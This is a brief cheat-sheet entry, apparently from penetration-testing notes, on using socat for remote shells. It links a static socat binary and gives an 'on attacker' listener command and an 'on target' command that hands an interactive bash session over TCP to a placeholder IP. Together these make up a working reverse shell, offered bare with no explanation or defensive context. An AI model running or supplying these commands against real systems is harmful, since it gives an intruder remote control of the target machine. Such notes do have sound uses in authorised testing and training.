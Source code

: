 # Socat

Static binary:
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

On attacker:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:7777
```

On target:
```bash
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:7777
```
